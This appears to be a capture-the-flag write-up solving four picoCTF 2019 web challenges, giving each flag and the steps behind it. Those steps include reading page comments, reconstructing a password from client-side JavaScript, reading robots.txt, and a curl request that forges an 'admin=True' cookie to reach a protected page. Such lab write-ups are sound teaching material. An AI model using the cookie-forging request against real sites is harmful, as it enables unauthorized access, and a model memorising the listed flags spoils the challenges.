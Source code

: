 # WebExploitation

## Insp3ct0r (50 points)

Kishor Balan tipped us off that the following code may need inspection: `https://2019shell1.picoctf.com/problem/52962/` (link) or `http://2019shell1.picoctf.com:52962`

FLAG: `picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?39dd9e36}`

It is hinted that the website is created using HTML, CSS, and JavaScript. View the source of the page, we will see at the end of the page:

```html
<!-- Html is neat. Anyways have 1/3 of the flag: picoCTF{tru3_d3 -->
```

Do the same for the CSS and JavaScript.

At the end of `mycss.css`, we see:

```css
/* You need CSS to make pretty pages. Here's part 2/3 of the flag: t3ct1ve_0r_ju5t */
```

At the end of `myjs.js`, we see:

```javascript
/* Javascript sure is neat. Anyways part 3/3 of the flag: _lucky?39dd9e36} */
```

Combining the three messages, we have the flag: `picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?39dd9e36}`.

## dont-use-client-side (100 points)

Can you break into this super secure portal? `https://2019shell1.picoctf.com/problem/12280/` (link) or `http://2019shell1.picoctf.com:12280`

FLAG: `picoCTF{no_clients_plz_577431}`

This webpage asks for a credential and checks it.

Check the JavaScript attached to this webpage, we see the following function:

```javascript
function verify() {
    checkpass = document.getElementById("pass").value;
    split = 4;
    if (checkpass.substring(0, split) == 'pico') {
        if (checkpass.substring(split*6, split*7) == '7743') {
            if (checkpass.substring(split, split*2) == 'CTF{') {
                if (checkpass.substring(split*4, split*5) == 'ts_p') {
                    if (checkpass.substring(split*3, split*4) == 'lien') {
                        if (checkpass.substring(split*5, split*6) == 'lz_5') {
                            if (checkpass.substring(split*2, split*3) == 'no_c') {
                                if (checkpass.substring(split*7, split*8) == '1}') {
                                    alert("Password Verified")
                                }
                            }
                        }
                    }
                }
            }
        }
    }
    else {
        alert("Incorrect password");
    }
}
```

Combine those pieces of string and reorganize to get the original password: `picoCTF{no_clients_plz_577431}`.

## logon (100 points)

The factory is hiding things from all of its users. Can you login as logon and find what they've been looking at? `https://2019shell1.picoctf.com/problem/47307/` (link) or `http://2019shell1.picoctf.com:47307`

FLAG: `picoCTF{th3_c0nsp1r4cy_l1v3s_95e4b2d5}`

Let's first look at the actual request that gets sent to the login page.

Try to set the username to be 'aaa' and password to be 'bbb'. Notice that the cookies look like follows:

```txt
password=bbb; username=aaa; admin=False
```

It's weird because we didn't actually set the option for admin. Hence, let's set admin to be 'True' and resend the request.

Note that the request is sent to `/login` and then to `/flag`. The url for the `/flag` page should be `http://2019shell1.picoctf.com:47307/flag`.

Type the following command in Bash:

```bash
$ curl http://2019shell1.picoctf.com:47307/flag -v --cookie 'admin=True;username=;password=;'
```

We will get the following response:

```txt
*   Trying 3.15.247.173...
* TCP_NODELAY set
* Connected to 2019shell1.picoctf.com (3.15.247.173) port 47307 (#0)
> GET /flag HTTP/1.1
> Host: 2019shell1.picoctf.com:47307
> User-Agent: curl/7.64.1
> Accept: */*
> Cookie: admin=True;username=;password=;
> 
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
< Content-Length: 1312
< Set-Cookie: password=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Path=/
< Set-Cookie: username=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Path=/
< Set-Cookie: admin=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Path=/
< 
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_95e4b2d5}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

* Connection #0 to host 2019shell1.picoctf.com left intact
</html>* Closing connection 0
```

Hence, the flag is `picoCTF{th3_c0nsp1r4cy_l1v3s_95e4b2d5}`.

## where are the robots (100 points)

Can you find the robots? `https://2019shell1.picoctf.com/problem/21868/` (link) or `http://2019shell1.picoctf.com:21868`

FLAG: `picoCTF{ca1cu1at1ng_Mach1n3s_e0779}`

First, we look up the whole website. After checking the html, css, js, cache, network requests, we notice nothing special.

On the page, it says:

> Where are the robots

This is actually a hint. Google uses web scrawlers to find web pages and website owners can specify which path they don't want google to fetch in a file called `robots.txt` and place it under the root dir of the website.

Let's go to `https://2019shell1.picoctf.com/problem/21868/robots.txt`. We will see the following message:

```txt
User-agent: *
Disallow: /e0779.html
```

Let's go to `https://2019shell1.picoctf.com/problem/21868/e0779.html`. The flag is shown as `picoCTF{ca1cu1at1ng_Mach1n3s_e0779}`.